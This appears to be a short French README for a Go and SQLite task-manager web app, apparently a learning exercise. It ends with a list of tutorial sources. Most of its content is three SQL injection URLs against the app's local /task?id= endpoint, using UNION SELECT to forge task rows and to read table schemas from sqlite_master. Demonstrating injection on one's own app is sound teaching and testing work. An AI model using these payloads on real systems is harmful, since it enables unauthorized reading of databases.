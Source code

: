 # Application Web HTTP en GO

http://localhost:8080/task?id=? and false union select 1,2,3,4,'Normal','AFaire',true --
http://localhost:8080/task?id=? and false union select 1,2,3,4,'Urgent' ,' Terminee' ,true --

http://localhost:8080/task?id=? and false union select 1,2,name,sql,'Urgent','Terminee',true from sqlite_master limit 1 offset 0 --

## Sources utilisées

Web

* https://juliensalinas.com/fr/developper-deployer-site-web-entier-golang/
* http://decouvric.cluster013.ovh.net/generalites/une-premiere-application-web.html

SQLite

* https://www.codeproject.com/Articles/5261771/Golang-SQLite-Simple-Example